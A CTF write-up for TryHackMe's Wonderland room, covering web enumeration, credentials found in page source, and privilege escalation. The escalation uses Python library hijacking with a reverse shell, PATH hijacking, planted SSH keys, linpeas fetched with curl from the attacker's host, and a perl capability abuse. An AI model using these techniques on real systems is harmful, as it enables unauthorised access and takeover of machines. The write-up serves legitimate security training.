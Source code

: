 Writeup for the Wonderland CTF Room on: https://tryhackme.com/

First we start by adding the ip to our /etc/hosts file.
Then we start our enumeration.

### Enumeration

## Nmap

We can see an open HTTP and SSH port.

[![https://imgur.com/jitshko.png](https://imgur.com/jitshko.png)](https://imgur.com/jitshko.png)

## Manual

Lets visit the site manually:
We dont see much.

[![https://imgur.com/11z0aWO.png](https://imgur.com/11z0aWO.png)](https://imgur.com/11z0aWO.png)

## Gobuster

Lets see what gobuster can reveal.

[![https://imgur.com/wFIBJg9.png](https://imgur.com/wFIBJg9.png)](https://imgur.com/wFIBJg9.png)

After checking the endpoints they dont seem to make to much sense to me.

But the /r endpoint tells us to keep going.

[![https://imgur.com/tE3tIbB.png](https://imgur.com/tE3tIbB.png)](https://imgur.com/tE3tIbB.png)

So lets see if we get further with recursive search.

## Dirbuster

[![https://imgur.com/80N9DDR.png](https://imgur.com/80N9DDR.png)](https://imgur.com/80N9DDR.png)

This looks prommising lets check it out.

In the source code we find credentials ! 

[![]](https://media.giphy.com/media/PjplWH49v1FS0/giphy.gif)

### Privilege Escalation

After logging in with SSH we can see the root.txt and a python script both owned by root.

[![https://imgur.com/0Q8Eaqt.png](https://imgur.com/0Q8Eaqt.png)](https://imgur.com/0Q8Eaqt.png)

Since the root flag is in our home directory and the hint says everything is upside down i checked the /root directory and found the user flag.

We can see the other users on the machine:

[![https://imgur.com/i40U4qz.png](https://imgur.com/i40U4qz.png)](https://imgur.com/i40U4qz.png)

We are allowed to run the python script as the user rabbit without password.

[![https://imgur.com/1WhFACr.png](https://imgur.com/1WhFACr.png)](https://imgur.com/1WhFACr.png)

Lets take a closer look at the script:

The short version is:

import random

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)

Since there is no absolute path we can create our own random.py and it will be imported and executed here:

So create a file called random.py and paste the code for a python reverseshell inside.

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

// Make sure to remove the python -c ' ' 

sudo -u rabbit /usr/bin/python3.6 walrus_and_the_carpenter.py

[![https://imgur.com/21Wo62w.png](https://imgur.com/21Wo62w.png)](https://imgur.com/21Wo62w.png)

And we are the rabbit ! :) 

In the homedirectory i created a pair of ssh keys:

mkdir .ssh
cd .ssh
touch authorized_keys
ssh-keygen
cat id_rsa.pub > authorized_keys

and then copied the id_rsa key to my hostmachine to loginto rabbit with that.

In the home directory of rabbit we have a TeaParty file.
When we cat it, we can see a lot of unreadable stuff but some lines are showing.

[![https://imgur.com/6BzJE3a.png](https://imgur.com/6BzJE3a.png)](https://imgur.com/6BzJE3a.png)

So the script uses date.

Lets repeat the process we had before with a bashscript to escalate.

[![https://imgur.com/uUxT0tg.png](https://imgur.com/uUxT0tg.png)](https://imgur.com/uUxT0tg.png)

We made it to hutter! 

[![https://imgur.com/UjpfCOj.png](https://imgur.com/UjpfCOj.png)](https://imgur.com/UjpfCOj.png)

We found his password.

[![https://imgur.com/t6uf2iB.png](https://imgur.com/t6uf2iB.png)](https://imgur.com/t6uf2iB.png)

Lets ssh in and proceed! 

At this point i will just run linpeas.
Download it from here on your Host: 

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS

In the same directory set up a http server with python:

Python3 -m http.server 1337

On your target go in the /tmp directory:

curl http://yourip:ip/linpeas.sh


There is a interisting capability set on perl:

[![https://imgur.com/68H4nts.png](https://imgur.com/68H4nts.png)](https://imgur.com/68H4nts.png)

Alternativly we could have also found it like this:

[![https://imgur.com/khkwlxr.png](https://imgur.com/khkwlxr.png)](https://imgur.com/khkwlxr.png)

When we check on GTFOBins on perl capabilities:

[![https://imgur.com/L8aSgEu.png](https://imgur.com/L8aSgEu.png)](https://imgur.com/L8aSgEu.png)

I tried this didn't work.
we don't have permission to use perl. 

Lets find a way to bypass that!

When we look at the manpage of capabilities.

https://man7.org/linux/man-pages/man7/capabilities.7.html

We can see that we can use it to change the suid.

[![https://imgur.com/HdwcoFW.png](https://imgur.com/HdwcoFW.png)](https://imgur.com/HdwcoFW.png)

Looks like we can run perl as hatter

[![https://imgur.com/k8pJYiL.png](https://imgur.com/k8pJYiL.png)](https://imgur.com/k8pJYiL.png)

We can use the information we collected and execute the privilege escalation from GTFOBINS to get root.

[![https://imgur.com/FF1InnC.png](https://imgur.com/FF1InnC.png)](https://imgur.com/FF1InnC.png)


[![](https://media.giphy.com/media/RhiMxsXuFy9KU/giphy.gif)

Thank you for reading :) 
